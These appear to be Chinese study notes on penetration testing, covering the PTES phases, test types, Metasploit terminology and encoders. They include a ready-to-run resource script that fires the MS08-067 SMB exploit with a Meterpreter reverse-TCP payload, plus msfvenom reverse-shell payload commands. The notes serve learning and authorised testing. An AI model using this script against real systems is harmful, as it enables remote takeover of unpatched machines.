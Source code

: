 # Penetration Testig 渗透测试

PTTES: Penetration Testing Execution Standard
## PTES渗透测试阶段
1. 前期交互阶段
2. 情报搜集阶段
3. 威胁建模阶段
4. 漏洞分析阶段
5. 渗透攻击阶段
6. 后渗透攻击阶段
7. 报告阶段

渗透测试类型: 
白盒测试; 拥有所有内部知识,可以在不需要害怕被阻断的情况下任意的实施攻击.
黑盒测试; 获取目标系统访问权代价最小的攻击路径,并保证不被检测到.
灰盒测试; 灰盒测试部分了解内部知识,可以和目标用户进行沟通。

漏洞扫描器是用来找出指定系统或应用中的安全漏洞的自动化工具.渗透测试的美妙之处在于它不是一个千篇一律的自动化过程,成功地攻击系统通常需要你掌握更多的知识和技能.

### 专业术语
渗透攻击(Exploit); 

攻击载荷(Payload);

shellcode是在渗透攻击时作为攻击载荷运行的一组机器指令.通常以汇编语言编写,目标系统执行了shellcode这一组指令后,才会提供一个命令行shell或Meterpreter shell,这也是shellcode名称的由来.

exploit module 渗透攻击模块和auxiliary module 辅助模块.

MSF终端(msfconsole) 可以用它发起一次渗透攻击,装载辅助模块,实施查点,创建监听器,或者对整个网络进行自动化渗透攻击.

POC: Proof of Concept 渗透攻击的概念验证代码

MSF编码器
由MSF攻击载荷生成器产生的shellcode是完全可运行的,但是其中包含了一些null空字符,在一些程序进行解析时,这些空字符串会被认为是字符串的结束,从而使得代码在完整执行之前被截断而终止运行,简单地来说\x00和\xff字符会破坏你的攻击载荷.

> 编码器
x86/shikata_ga_nai编码器,在Metasploit中唯一一个拥有Excellent等级的编码器,而这种等级是基于一个模块的可靠性和稳定性来评价的.
查看编码器及相关等级使用: msfvenom -l encoders.

> 了解汇编代码含义
Nasm_shell.rb在对应给定的汇编命令找出它的opcode操作码,可以使用
cd /usr/share/metasploit-framework/tools/exploit
./nasm_shell.rb
nasm > jmp esp



> 自动化运行MS08-067脚本 /home/scripts/reverse_tcp.rc
```rc
use exploit /windows/smb/ms08_067_netapi
set RHOST [IP]
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
run
# 执行
./msfconsole -r /home/scripts/reverse_tcp.rc
```

对某个攻击载荷模块感兴趣却不清楚它的配置选项时,采用payload-options就可以列出所必须和可选二点选项列表
msfvenom -p windows/shell_reverse_tcp --payload-options

参考:
Metasploit渗透测试指南.pdf